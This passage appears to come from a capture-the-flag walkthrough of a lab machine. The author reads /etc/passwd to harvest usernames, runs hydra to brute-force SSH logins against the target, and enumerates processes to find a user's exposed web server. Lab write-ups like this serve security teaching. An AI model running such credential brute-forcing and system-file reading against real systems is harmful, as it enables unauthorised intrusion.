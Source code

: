 mysql>

Neat stuff, but nothing that will help with rooting the box.

Might as well grab the passwd file and start hydra again with a clean list.

SHayslett@red:/var/www/https$ cat /etc/passwd | grep bash
RNunemaker:x:1001:1001::/home/RNunemaker:/bin/bash
ETollefson:x:1002:1002::/home/ETollefson:/bin/bash
DSwanger:x:1003:1003::/home/DSwanger:/bin/bash
AParnell:x:1004:1004::/home/AParnell:/bin/bash
SHayslett:x:1005:1005::/home/SHayslett:/bin/bash
MBassin:x:1006:1006::/home/MBassin:/bin/bash
JBare:x:1007:1007::/home/JBare:/bin/bash
LSolum:x:1008:1008::/home/LSolum:/bin/bash
MFrei:x:1010:1010::/home/MFrei:/bin/bash
SStroud:x:1011:1011::/home/SStroud:/bin/bash
JKanode:x:1013:1013::/home/JKanode:/bin/bash
CJoo:x:1014:1014::/home/CJoo:/bin/bash
Drew:x:1020:1020::/home/Drew:/bin/bash
jess:x:1021:1021::/home/jess:/bin/bash
SHAY:x:1022:1022::/home/SHAY:/bin/bash
mel:x:1024:1024::/home/mel:/bin/bash
zoe:x:1026:1026::/home/zoe:/bin/bash
NATHAN:x:1027:1027::/home/NATHAN:/bin/bash
elly:x:1029:1029::/home/elly:/bin/bash
SHayslett@red:/var/www/https$

root@kali:~/stapler# hydra -L ssh_users.txt -v -t 4 -e nsr ssh://192.168.118.184

I'll just let that run in the background while i poke at the server more.

There was that strange service listening on port 666.  Wonder what we can find from that.

SHayslett@red:/var/www/https$ netstat -lnp

Doesn't give me anything useful, need to be root.  Maybe I can find something in the processes that looks guilty.

SHayslett@red:/var/www/https$ ps aux

****snip****

JKanode   1579  0.0  0.4   6372  4284 ?        Ss   May19   0:00 /lib/systemd/systemd --user
www       1585  0.0  0.1   7896  1556 ?        S    May19   0:00 (sd-pam)
JKanode   1586  0.0  0.1   7896  1616 ?        S    May19   0:00 (sd-pam)
JKanode   1592  0.0  0.2   5436  2864 ?        Ss   May19   0:00 bash -c cd /home/JKanode; python2 -m Sim
www       1593  0.0  0.0   5432   676 ?        Ss   May19   0:00 bash -c authbind php -S 0.0.0.0:80 -t /h
www       1594  0.0  2.4 126008 24616 ?        S    May19   0:01 php -S 0.0.0.0:80 -t /home/www/
JKanode   1595  0.0  0.9  14696  9864 ?        S    May19   0:02 python2 -m SimpleHTTPServer 8888

****snip****

Hey!  I've lost interest in the strange service on 666.  Hello JKanode, what are you doing?
